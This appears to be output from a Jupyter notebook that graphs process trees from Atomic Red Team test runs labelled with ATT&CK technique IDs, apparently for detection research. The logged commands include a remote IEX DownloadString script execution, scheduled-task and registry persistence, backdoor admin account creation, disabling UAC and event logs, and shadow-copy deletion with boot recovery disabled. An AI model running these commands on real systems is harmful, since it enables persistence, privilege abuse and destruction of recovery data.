

 72%|███████▏  | 118/165 [01:35<00:16,  2.94it/s]

Number of relations in the graph: 2
695322 : cmd.exe_/C_schtasks_/create_/tn_"T1053_005_OnLogon"_/sc_onlogon_/tr_"cmd.exe_/c_calc.exe"_&&_schtasks_/create_/tn_"T1053_005_OnStartup"_/sc_onstart_/ru_system_/tr_"cmd.exe_/c_calc.exe"&C:\Windows\system32\cmd.exe&cmd.exe&11104
272495 : schtasks__/create_/tn_"T1053_005_OnLogon"_/sc_onlogon_/tr_"cmd.exe_/c_calc.exe"_&C:\Windows\system32\schtasks.exe&schtasks.exe&3584
147147 : schtasks__/create_/tn_"T1053_005_OnStartup"_/sc_onstart_/ru_system_/tr_"cmd.exe_/c_calc.exe"&C:\Windows\system32\schtasks.exe&schtasks.exe&2444
../graph_others2/T1053.005_5db2884b6ca3ab932848f295a3896dc0.png has been generated!
T1547.001_4b71ebb2f6f6a01235ba240fa40ce978


<Figure size 432x288 with 0 Axes>



 72%|███████▏  | 119/165 [01:35<00:15,  3.06it/s]

Number of relations in the graph: 2
549168 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$RunOnceKey_=_\"HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce\";_set-itemproperty_$RunOnceKey_\"NextRun\"_'powershell.exe_\"IEX_(New-Object_Net.WebClient).DownloadString(`\"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/36f83b728bc26a49eacb0535edc42be8c377ac54/ARTifacts/Misc/Discovery.bat`\")\"'"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3136
180580 : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce\NextRun
../graph_others2/T1547.001_4b71ebb2f6f6a01235ba240fa40ce978.png has been generated!
T1531_aa6b15485a5f50ced34d87fda177b758


<Figure size 432x288 with 0 Axes>



 73%|███████▎  | 120/165 [01:35<00:15,  2.91it/s]

Number of relations in the graph: 2
593694 : cmd.exe_/C_net_user_AtomicAdministrator_User2ChangePW!_/add_&&_net.exe_user_AtomicAdministrator_HuHuHUHoHo283283@dJD&C:\Windows\system32\cmd.exe&cmd.exe&5292
558613 : net__user_AtomicAdministrator_User2ChangePW!_/add_&C:\Windows\system32\net.exe&net.exe&11172
759193 : net.exe__user_AtomicAdministrator_HuHuHUHoHo283283@dJD&C:\Windows\system32\net.exe&net.exe&10976
../graph_others2/T1531_aa6b15485a5f50ced34d87fda177b758.png has been generated!
T1069.001_a1f48fa3ddee658b29b414523c9a295b


<Figure size 432x288 with 0 Axes>



 73%|███████▎  | 121/165 [01:36<00:14,  2.96it/s]

Number of relations in the graph: 2
397237 : cmd.exe_/C_net_localgroup_&&_net_localgroup_"Administrators"&C:\Windows\system32\cmd.exe&cmd.exe&8568
191757 : net__localgroup_&C:\Windows\system32\net.exe&net.exe&4912
469425 : net__localgroup_"Administrators"&C:\Windows\system32\net.exe&net.exe&1560
../graph_others2/T1069.001_a1f48fa3ddee658b29b414523c9a295b.png has been generated!
T1547.004_aa147165f6c116cb0b0f944abe1db8ce


<Figure size 432x288 with 0 Axes>



 74%|███████▍  | 122/165 [01:36<00:13,  3.11it/s]

Number of relations in the graph: 2
335641 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Set-ItemProperty_\"HKCU:\Software\Microsoft\Windows_NT\CurrentVersion\Winlogon\\\"_\"Shell\"_\"explorer.exe,_C:\Windows\System32\cmd.exe\"_-Force"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9748
468101 : HKCU\SOFTWARE\Microsoft\Windows_NT\CurrentVersion\Winlogon\Shell
../graph_others2/T1547.004_aa147165f6c116cb0b0f944abe1db8ce.png has been generated!
T1036.004_1f0614ea5c4af6faf1b44570f5f22f8a


<Figure size 432x288 with 0 Axes>



 75%|███████▍  | 123/165 [01:36<00:13,  3.05it/s]

Number of relations in the graph: 2
205565 : cmd.exe_/C_sc_create_win32times_binPath=_"cmd_/c_start_c:\T1036.004_NonExistingScript.ps1"_&&_sc_qc_win32times&C:\Windows\system32\cmd.exe&cmd.exe&5168
733769 : sc__create_win32times_binPath=_"cmd_/c_start_c:\T1036.004_NonExistingScript.ps1"_&C:\Windows\system32\sc.exe&sc.exe&200
250773 : sc__qc_win32times&C:\Windows\system32\sc.exe&sc.exe&9080
../graph_others2/T1036.004_1f0614ea5c4af6faf1b44570f5f22f8a.png has been generated!
T1564.003_9a2edad4053a2b59fb9167a9bc29e7dc


<Figure size 432x288 with 0 Axes>



 75%|███████▌  | 124/165 [01:37<00:13,  3.02it/s]

Number of relations in the graph: 2
221197 : powershell.exe_-ExecutionPolicy_Bypass_-C_"Start-Process_powershell.exe_-WindowStyle_hidden_calc.exe"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9076
223039 : "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"_calc.exe_&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5880
411768 : "C:\Windows\system32\calc.exe"&C:\Windows\system32\calc.exe&calc.exe&1116
../graph_others2/T1564.003_9a2edad4053a2b59fb9167a9bc29e7dc.png has been generated!
T1490_8467c994685ccf178db166964bd80fab


<Figure size 432x288 with 0 Axes>



 76%|███████▌  | 125/165 [01:37<00:13,  3.01it/s]

Number of relations in the graph: 2
609483 : cmd.exe_/C_bcdedit.exe_/set_{default}_bootstatuspolicy_ignoreallfailures_&&_bcdedit.exe_/set_{default}_recoveryenabled_no&C:\Windows\system32\cmd.exe&cmd.exe&10536
184600 : bcdedit.exe__/set_{default}_bootstatuspolicy_ignoreallfailures_&C:\Windows\system32\bcdedit.exe&bcdedit.exe&6676
108433 : bcdedit.exe__/set_{default}_recoveryenabled_no&C:\Windows\system32\bcdedit.exe&bcdedit.exe&9840
../graph_others2/T1490_8467c994685ccf178db166964bd80fab.png has been generated!
T1548.002_665432a4-42e7-4ee1-af19-a9a8c9455d0c


<Figure size 432x288 with 0 Axes>



 76%|███████▋  | 126/165 [01:37<00:12,  3.15it/s]

Number of relations in the graph: 2
565544 : powershell.exe_-ExecutionPolicy_Bypass_-C_"New-ItemProperty_-Path_HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system_-Name_EnableLUA_-PropertyType_DWord_-Value_0_-Force"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10292
78056 : HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
../graph_others2/T1548.002_665432a4-42e7-4ee1-af19-a9a8c9455d0c.png has been generated!
T1564_dedfa0a54c9c13ce5714a0dc2e1f5d1a


<Figure size 432x288 with 0 Axes>



 77%|███████▋  | 127/165 [01:38<00:11,  3.27it/s]

Number of relations in the graph: 1
764692 : cmd.exe_/C_net_user_$_ATOMIC123!_/add_/active:yes&C:\Windows\system32\cmd.exe&cmd.exe&2324
131603 : net__user_$_ATOMIC123!_/add_/active:yes&C:\Windows\system32\net.exe&net.exe&3688
../graph_others2/T1564_dedfa0a54c9c13ce5714a0dc2e1f5d1a.png has been generated!
T1047_f4b0b4129560ea66f9751275e82f6bab


<Figure size 432x288 with 0 Axes>



 78%|███████▊  | 128/165 [01:38<00:10,  3.43it/s]

Number of relations in the graph: 1
448123 : powershell.exe_-ExecutionPolicy_Bypass_-C_"wmic_/node:127.0.0.1_process_call_create_\"rundll32.exe_$env:TEMP\calc.dll_StartW\""&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&10764
750216 : "C:\Windows\System32\Wbem\WMIC.exe"_/node:127.0.0.1_process_call_create_"rundll32.exe_C:\Users\ezk\AppData\Local\Temp\calc.dll_StartW"&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&6996
../graph_others2/T1047_f4b0b4129560ea66f9751275e82f6bab.png has been generated!
T1057_b2a1e430ca6d36eb5af2fe666e769847


<Figure size 432x288 with 0 Axes>



 78%|███████▊  | 129/165 [01:38<00:10,  3.51it/s]

Number of relations in the graph: 1
369945 : cmd.exe_/C_wmic_process_get_/format:list&C:\Windows\system32\cmd.exe&cmd.exe&7780
74885 : wmic__process_get_/format:list&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&1832
../graph_others2/T1057_b2a1e430ca6d36eb5af2fe666e769847.png has been generated!
T1016_a0676fe1-cd52-482e-8dde-349b73f9aa69


<Figure size 432x288 with 0 Axes>



 79%|███████▉  | 130/165 [01:38<00:09,  3.56it/s]

Number of relations in the graph: 1
218859 : powershell.exe_-ExecutionPolicy_Bypass_-C_".\wifi.ps1_-Pref"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5684
52999 : "C:\Windows\system32\netsh.exe"_wlan_show_profiles&C:\Windows\system32\netsh.exe&netsh.exe&2308
../graph_others2/T1016_a0676fe1-cd52-482e-8dde-349b73f9aa69.png has been generated!
T1049_638fb6bb-ba39-4285-93d1-7e4775b033a8


<Figure size 432x288 with 0 Axes>



 79%|███████▉  | 131/165 [01:39<00:09,  3.62it/s]

Number of relations in the graph: 1
325766 : powershell.exe_-ExecutionPolicy_Bypass_-C_"netstat_-anto;Get-NetTCPConnection"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&4216
543463 : "C:\Windows\system32\NETSTAT.EXE"_-anto&C:\Windows\system32\NETSTAT.EXE&NETSTAT.EXE&10680
../graph_others2/T1049_638fb6bb-ba39-4285-93d1-7e4775b033a8.png has been generated!
T1490_c156ac5c9fa67080365268d95f29053d


<Figure size 432x288 with 0 Axes>



 80%|████████  | 132/165 [01:39<00:09,  3.62it/s]

Number of relations in the graph: 1
763105 : cmd.exe_/C_wmic.exe_shadowcopy_delete&C:\Windows\system32\cmd.exe&cmd.exe&1900
640542 : wmic.exe__shadowcopy_delete&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&4632
../graph_others2/T1490_c156ac5c9fa67080365268d95f29053d.png has been generated!
T1047_ed736a123da6fb2aab22cfd4f437e8b5


<Figure size 432x288 with 0 Axes>



 81%|████████  | 133/165 [01:39<00:08,  3.65it/s]

Number of relations in the graph: 1
30184 : cmd.exe_/C_wmic_qfe_get_description,installedOn_/format:csv&C:\Windows\system32\cmd.exe&cmd.exe&5580
485175 : wmic__qfe_get_description,installedOn_/format:csv&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&5048
../graph_others2/T1047_ed736a123da6fb2aab22cfd4f437e8b5.png has been generated!
T1562.002_94f51bf01a7036fe02d07b4c18967669


<Figure size 432x288 with 0 Axes>



 81%|████████  | 134/165 [01:39<00:08,  3.57it/s]

Number of relations in the graph: 1
472729 : cmd.exe_/C_wevtutil_sl_"Microsoft-Windows-IKE/Operational"_/e:false&C:\Windows\system32\cmd.exe&cmd.exe&6480
433814 : wevtutil__sl_"Microsoft-Windows-IKE/Operational"_/e:false&C:\Windows\system32\wevtutil.exe&wevtutil.exe&9732
../graph_others2/T1562.002_94f51bf01a7036fe02d07b4c18967669.png has been generated!
T1016_e8017c46-acb8-400c-a4b5-b3362b5b5baa


<Figure size 432x288 with 0 Axes>



 82%|████████▏ | 135/165 [01:40<00:08,  3.65it/s]

Number of relations in the graph: 1
506686 : powershell.exe_-ExecutionPolicy_Bypass_-C_ipconfig&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&2700
708988 : "C:\Windows\system32\ipconfig.exe"&C:\Windows\system32\ipconfig.exe&ipconfig.exe&1992
../graph_others2/T1016_e8017c46-acb8-400c-a4b5-b3362b5b5baa.png has been generated!
T1016_921055f4-5970-4707-909e-62f594234d91


<Figure size 432x288 with 0 Axes>



 82%|████████▏ | 136/165 [01:40<00:07,  3.68it/s]

Number of relations in the graph: 1
262572 : powershell.exe_-ExecutionPolicy_Bypass_-C_"ping_desktop-ba1rqfc.blueteam.com"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5748
255488 : "C:\Windows\system32\PING.EXE"_desktop-ba1rqfc.blueteam.com&C:\Windows\system32\PING.EXE&PING.EXE&364
../graph_others2/T1016_921055f4-5970-4707-909e-62f594234d91.png has been generated!
T1518.001_2dece965-37a0-4f70-a391-0f30e3331aba


<Figure size 432x288 with 0 Axes>



 83%|████████▎ | 137/165 [01:40<00:07,  3.64it/s]

Number of relations in the graph: 1
437310 : powershell.exe_-ExecutionPolicy_Bypass_-C_"wmic_/NAMESPACE:\\root\SecurityCenter2_PATH_AntiVirusProduct_GET_/value"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9256
55019 : "C:\Windows\System32\Wbem\WMIC.exe"_/NAMESPACE:\\root\SecurityCenter2_PATH_AntiVirusProduct_GET_/value&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&11056
../graph_others2/T1518.001_2dece965-37a0-4f70-a391-0f30e3331aba.png has been generated!
T1033_bd527b63-9f9e-46e0-9816-b8434d2b8989


<Figure size 432x288 with 0 Axes>



 84%|████████▎ | 138/165 [01:41<00:07,  3.63it/s]

Number of relations in the graph: 1
189412 : powershell.exe_-ExecutionPolicy_Bypass_-C_whoami&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3292
483738 : "C:\Windows\system32\whoami.exe"&C:\Windows\system32\whoami.exe&whoami.exe&10132
../graph_others2/T1033_bd527b63-9f9e-46e0-9816-b8434d2b8989.png has been generated!
T1003.003_9f73269695e54311dd61dc68940fb3e1


<Figure size 432x288 with 0 Axes>



 84%|████████▍ | 139/165 [01:41<00:07,  3.62it/s]

Number of relations in the graph: 1
370203 : cmd.exe_/C_wmic_shadowcopy_call_create_Volume=C:\&C:\Windows\system32\cmd.exe&cmd.exe&6776
282990 : wmic__shadowcopy_call_create_Volume=C:\&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&7820
../graph_others2/T1003.003_9f73269695e54311dd61dc68940fb3e1.png has been generated!
T1047_09e0f9cf2eb803a1c35deeecf3665fad


<Figure size 432x288 with 0 Axes>

